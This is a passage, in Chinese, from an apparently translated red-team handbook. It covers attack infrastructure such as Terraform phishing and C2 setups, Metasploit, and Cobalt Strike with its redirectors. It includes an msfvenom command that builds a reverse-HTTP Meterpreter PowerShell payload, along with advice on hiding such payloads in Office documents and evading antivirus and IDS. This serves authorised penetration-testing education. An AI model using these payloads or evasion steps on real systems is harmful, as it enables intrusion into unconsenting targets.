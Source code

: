 我曾经看到一些红队在 AWS 中，使用 Docker 运行 Kali Linux (或者至少是 Metasploit) (参考: http://bit.ly/2qz2vN9 )。在我看来，虽然创建你自己的系统怎么样都可以。但是更好的选择是创建一个高效且可重复的流程来部署多台机器。使用 Lightsail 的 最大好处是一旦你将你的机器配置为你的首选项，你就可以对一台机器进行快照，并部署使用该镜像的多个全新实例。

如果你想让你的环境更上一层楼，看看 Coalfire 研究所的团队。他们构建了自定义模块来为你完成所有的艰苦工作和自动化。[Red Baron](https://github.com/Coalfire-Research/Red-Baron) 是 Terraform 的一组模块和自定义/第三方提供者，它可以为红队自动创建弹性、一次性、安全和灵活的基础设施。无论你想要构建一个钓鱼服务器，Cobalt Strike 基础设施，或创建 DNS C2 服务器，你都可以用 Terraform 做到这一切。

查看 https://github.com/Coalfire-Research/Red-Baron 并查看所有不同的模块以便快速构建你自己的基础架构。

## 红队的核心工具 
红队可能会使用很多工具，但是让我们来讨论些最核心的工具。请记住，作为一个红队成员，我们的目的不是破坏环境(虽然这是最有趣的)，而是要复制现实世界的攻击，以查看客户是否受到保护，并可以在很短的时间内检测到攻击。在前面的章节中，我们了解了如何从其他 APT 组织那里复制攻击者的概要文件和工具集，所以让我们回顾一下一些最常见的红队工具。

### Metasploit 框架
本书不会像前几本书那样深入探讨 Metasploit。尽管 [Metasploit 框架](https://github.com/rapid7/metasploit-framework/commits/master)最初是从 2003 年开发的，但它现在仍然是一个非常棒的工具。这是由于最初的开发者 H.D. Moore 和非常活跃的社区为它提供持续支持。这个社区驱动的框架，似乎每天更新，拥有所有最新的公开漏洞的利用、后渗透利用模块、辅助模块等等。

对于红队项目，我们可能使用 Metasploit 通过[MS17-010永恒之蓝漏洞](http://bit.ly/2H2PTsI)危害内部系统，以获得我们的第一个内网 shell,或者我们可能使用 Metasploit 为我们的社会工程攻击生成一个 Meterpreter payload。 

在后面的章节中，我将向你展示如何重新编译你的 Metasploit payload 并绕过杀毒软件和网络监控。

#### 混淆 Meterpreter 的 Payload
如果我们正在针对目标进行一些社工尝试，我们可能会使用 Word 或 Excel 文档作为我们的 payload（攻击载荷）的载体。 但是，一个潜在的问题是我们可能无法包含 Meterpreter 的 payload 的二进制文件或让目标机器从 Web 下载我们的 payload，因为这些操作可能会触发目标机器中的杀毒软件的警报。 所以，这里给出一个简单的解决方案，使用 PowerShell 进行模糊处理：

```shell
msfvenom -payload windows/x64/meterpreter_reverse_http -format psh -out meterpreter-64.ps1 LHOST=127.0.0.1
```

我们甚至可以将混淆提升到新的水平，并使用 [Unicorn](https://github.com/trustedsec/unicorn) 等工具生成更多模糊的基于 PowerShell 的 Meterpreter payload，我们将在本书中详细介绍这些混淆器。

![](img/chapter_1/1-5.PNG)

此外，使用受信任的机构签发的 SSL/TLS 证书可以帮助我们绕过某些网络中的 IDS（入侵检测系统），具体可以参考以下链接实现：[Meterpreter Paranoid Mode](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode)。

最后，在本书的后面部分，我们将讨论如何重新编译利用 Metasploit/Meterpreter 来绕过基于主机和网络的检测工具。

### Cobalt Strike
Cobalt Strike 是迄今为止我最喜欢的红队模拟工具之一。什么是 Cobalt Strike 呢？它是一种用来后期持久渗透，横向移动，流量隐藏、数据窃取的工具。 Cobalt Strike 并没有直接的漏洞利用，也没有通过最新的 0-Day 漏洞来破坏系统。当你已经在服务器上执行了 CS 的恶意代码或者将 CS 用作网络钓鱼活动的一部分时，你就能感受到 CS 的功能是多么广泛并且强大。 一旦你可以在机器上执行 Cobalt Strike 的 payload，它创建一个 Beacon(远控木马功能)连接回连到 C2 服务器（teamserver）。

新的 Cobalt Strike 许可证的费用为3500美元(单用户一年)，所以它并不是一个便宜工具。 不过该软件有免费的限量试用版。

#### Cobalt Strike 基础设施
正如上文所述，在基础设施方面，我们希望设置这样一个可重用且高度灵活的环境。Cobalt Strike 支持重定向，当你的 Cobalt Strike 使用的 C2 域名被销毁了，你不需要创建并启用一个新的环境，只需要替换一个新的 C2 域名。你可以在这里找到更多的使用 socat 配置这些重定向器的信息：[链接1](http://bit.ly/2qxCbCZ)  &  [链接2](http://bit.ly/2IUc4Oe)
